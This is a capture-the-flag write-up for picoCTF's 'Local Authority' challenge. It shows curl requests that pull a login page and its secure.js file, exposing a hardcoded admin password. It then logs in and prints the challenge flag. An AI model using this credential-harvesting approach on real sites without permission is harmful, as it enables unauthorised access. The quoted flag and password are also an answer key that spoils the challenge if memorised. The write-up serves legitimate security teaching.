


# Local Authority

## Description

> Can you get the flag?
> 
> Go to this [website](http://saturn.picoctf.net:49701/) and see what you can discover.

## Hints

> How is the password checked on this website?

## Write-Up

When entring the website, we find that it is a simple login form :



The first thing that may come to our mind is to try to enter random inputs and submit the form. We can see that it returns a message `Login failed` :



In reality, the failed message isn't the only thing returned in the page, let's see what else is returned :

```
curl 'http://saturn.picoctf.net:49701/login.php' --X POST --data "username=admin&password=admin"
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Login Page</title>
  </head>
  <body>
    <script src="secure.js"></script>
    
    <p id='msg'></p>
    
    <form hidden action="admin.php" method="post" id="hiddenAdminForm">
      <input type="text" name="hash" required id="adminFormHash">
    </form>
    
    <script type="text/javascript">
      function filter(string) {
        filterPassed = true;
        for (let i =0; i < string.length; i++){
          cc = string.charCodeAt(i);
          
          if ( (cc >= 48 && cc <= 57) ||
               (cc >= 65 && cc <= 90) ||
               (cc >= 97 && cc <= 122) )
          {
            filterPassed = true;     
          }
          else
          {
            return false;
          }
        }
        
        return true;
      }
    
      window.username = "admin";
      window.password = "admin";
      
      usernameFilterPassed = filter(window.username);
      passwordFilterPassed = filter(window.password);
      
      if ( usernameFilterPassed && passwordFilterPassed ) {
      
        loggedIn = checkPassword(window.username, window.password);
        
        if(loggedIn)
        {
          document.getElementById('msg').innerHTML = "Log In Successful";
          document.getElementById('adminFormHash').value = "2196812e91c29df34f5e217cfd639881";
          document.getElementById('hiddenAdminForm').submit();
        }
        else
        {
          document.getElementById('msg').innerHTML = "Log In Failed";
        }
      }
      else {
        document.getElementById('msg').innerHTML = "Illegal character in username or password."
      }
    </script>
    
  </body>
</html>
```

As we can see, there is also some hidden inner `js` executed : the page is using `checkPassword()` function to check the credentials before submitting the inputs.


We can als find that the is a `js` script executed as well as and imported called `secure.js`. Let's see what it contains :

```
curl 'http://saturn.picoctf.net:49701/secure.js'
```

```js
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

So, the `checkPassword()` funtion was imported from the `secure.js` script, and it contains the credentials as plain text. We can use the to get the flag :

```html
└─$ curl 'http://saturn.picoctf.net:49701/login.php' --X POST --data "username=admin&password=strongPassword098765"
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Login Page</title>
  </head>
  <body>picoCTF{j5_15_7r4n5p4r3n7_8086bcb1}</body>
</html>
```

**Note :** if the `curl` command doesn't work, just enter the creds in the login page and submit it manually

## Flag

picoCTF{j5_15_7r4n5p4r3n7_8086bcb1} 